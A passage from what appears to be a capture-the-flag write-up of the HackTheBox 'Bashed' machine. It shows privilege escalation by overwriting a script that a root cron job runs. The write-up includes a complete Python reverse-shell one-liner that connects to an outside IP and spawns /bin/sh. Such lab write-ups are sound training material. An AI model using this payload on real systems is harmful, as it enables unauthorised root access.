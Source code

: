 Now that we're running as the scriptmanager, we have read/write/execute privileges in the **scripts** directory.

```bash
scriptmanager@bashed:/scripts$ ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jul 14 18:35 test.txt
```

Most interesting is that the `test.txt` file is owned by root, and seems to be the result of the `test.py` script, which is writable by scriptmanager. First, I tried moving test.txt to test.txt.old. A few minutes later, it's back:

```bash
scriptmanager@bashed:/scripts$ date
Wed Jul  14 21:57:03 EST 2021

scriptmanager@bashed:/scripts$ ls
test.py  test.txt.old  test2.py  test3.py

scriptmanager@bashed:/scripts$ date
Wed Jul  14 21:59:03 EST 2021

scriptmanager@bashed:/scripts$ ls
test.py  test.txt  test.txt.old  test2.py  test3.py
```

Something is running that `test.py` script from the /scripts directory creates a test script that writes to a different file, and it writes the different file. So any .py file seems to be run. Also, since test.py doesn't have a #! at the start, it seems that whatever is running this (maybe a cron?) is calling python.

It is possible to just write a script that reads `/root/root.txt` and writes it elsewhere, but it's better to get a shell!

Let's create the exploit:

```python
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.172\",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > test.py
```

On Kali, set up a listener, and get root shell:

![image](/images/posts/boom-bashed/5.webp)

## Lessons I Learned:

* The developer should never put a webshell on the website. No matter if its hidden inside the directories. Tools like ffuf can find it in seconds. Developer must use SSH protocol instead to make a communication with webserver.
* Misconfigured permissions can cause destructions, Make sure web daemon user (www-data) should not be allowed for more privileges than it requires.
* I was little stucked in Privilege Escalation part, next time i'll make sure to read the permissions properly by using command `ls -la` instead of simple `ls` command. I was also having difficulty to know whether the python script is run by a cron job.

Thanks for reading this post, if you like my work you can support me on [Patreon](https://www.patreon.com/hackerwasii/membership). ❤️
Read other posts

***